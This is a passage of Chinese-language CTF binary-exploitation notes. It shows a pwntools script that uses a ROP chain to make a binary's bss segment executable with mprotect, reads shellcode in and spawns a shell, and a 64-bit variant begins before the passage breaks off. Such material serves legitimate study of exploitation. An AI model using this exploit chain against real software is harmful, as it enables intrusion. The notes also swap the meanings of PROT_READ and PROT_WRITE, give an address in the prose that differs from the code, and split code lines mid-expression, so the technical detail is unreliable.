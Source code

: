 ```python
'''
payload = asm(shellcode)

```



### 链接：

#### 静态动态链接 

##### 1.静态--mprotect

**函数原型：int mprotect(void *addr, size_t len, int prot);**

![1733396345146](C:\Users\16082\AppData\Roaming\Typora\typora-user-images\1733396345146.png)

prot可以取以下几个值，并且可以用“|”将几个属性合起来使用：  

1）PROT_READ：表示内存段内的内容可写； 　 

2）PROT_WRITE：表示内存段内的内容可读； 　 

3）PROT_EXEC：表示内存段中的内容可执行； 　 

4）PROT_NONE：表示内存段中的内容根本没法访问。 　 

5） prot=7 是可读可写可执行 

**read函数原型: ssize_t read(int fd, void *buf, size_t count); **

1）fd 设为0时就可以从输入端读取内容 设为0  

2）buf 设为我们想要执行的内存地址 设为我们已找到的内存地址0x80EB000  

3）size 适当大小就可以 只要够读入shellcode就可以，设置大点无所谓 可以看到read函数也有三个参数要设置，我们就可以继续借用上面找到的有3个寄存器的ret指令

**利用这个函数把段的属性改成可读可写可执行，进而执行shellcode **  

```python
#32位的mprotect利用
#获取信息，填写攻击信息
elf = ELF('./pwn')
mprotect = elf.sym['mprotect']
read_addr = elf.sym['read']
pop_ebx_esi_ebp_ret = 0x80a019b  #0x080a019b : pop ebx ; pop esi ; pop ebp ; 
ret	#为了调用三个参数的函数
M_addr = 0x80DA000	#bss地址
M_size = 0x1000	#空间大小
M_proc = 0x7	#改变的属性

payload = cyclic(0x12+4) + p32(mprotect) #进入mprotect
payload += p32(pop_ebx_esi_ebp_ret) + p32(M_addr) + p32(M_size) + 
p32(M_proc)	#填写函数参数
payload += p32(read_addr)	#进入read函数
payload += p32(pop_ebx_esi_ebp_ret) + p32(0) + p32(M_addr) + p32(M_size) + 
p32(M_addr)	#再次填写函数的参数

#发送攻击
io.sendline(payload)
shellcode = asm(shellcraft.sh())
io.sendline(shellcode)


#64位
#step2 : mprotect_bss_to_rwx
#能ret2libc就用，比这个快
#主要区别还是函数的传参规则不一样
payload = cyclic(40)
payload+= p64(pop_rdi_ret)
```